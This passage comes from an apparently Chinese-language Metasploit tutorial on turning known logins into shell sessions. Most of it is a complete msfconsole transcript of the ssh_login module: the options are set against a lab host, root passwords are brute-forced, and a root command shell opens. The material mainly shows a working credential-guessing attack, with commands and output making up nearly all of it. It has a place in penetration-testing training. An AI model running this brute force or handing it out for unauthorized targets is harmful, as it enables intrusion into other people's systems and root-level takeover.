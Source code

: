 ![enter image description here](http://drops.javaweb.org/uploads/images/6940d46da911c2d6d3ec9d6250f9328820c7a0ce.jpg)

### Login privilege

在获得一些登陆权限之后获得meterpreter shell的方法。

**SSH**

**ssh_login**

模块路径:`auxiliary/scanner/ssh/ssh_login`

```
msf exploit(sshexec) > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > show options 

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      true             no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(ssh_login) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf auxiliary(ssh_login) > set USERNAME root
USERNAME => root
msf auxiliary(ssh_login) > set PASS
set PASSWORD   set PASS_FILE  
msf auxiliary(ssh_login) > set PASSWORD toor
PASSWORD => toor
msf auxiliary(ssh_login) > exploit 

[*] 192.168.1.104:22 SSH - Starting bruteforce
[*] 192.168.1.104:22 SSH - [1/3] - Trying: username: 'root' with password: ''
[-] 192.168.1.104:22 SSH - [1/3] - Failed: 'root':''
[*] 192.168.1.104:22 SSH - [2/3] - Trying: username: 'root' with password: 'root'
[-] 192.168.1.104:22 SSH - [2/3] - Failed: 'root':'root'
[*] 192.168.1.104:22 SSH - [3/3] - Trying: username: 'root' with password: 'toor'
[*] Command shell session 4 opened (192.168.1.105:54562 -> 192.168.1.104:22) at 2014-08-07 22:55:54 +0800
[+] 192.168.1.104:22 SSH - [3/3] - Success: 'root':'toor' 'uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=system_u:system_r:unconfined_t:SystemLow-SystemHigh Linux localhost.localdomain 2.6.18-164.el5 #1 SMP Thu Sep 3 03:33:56 EDT 2009 i686 i686 i386 GNU/Linux '
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions 
```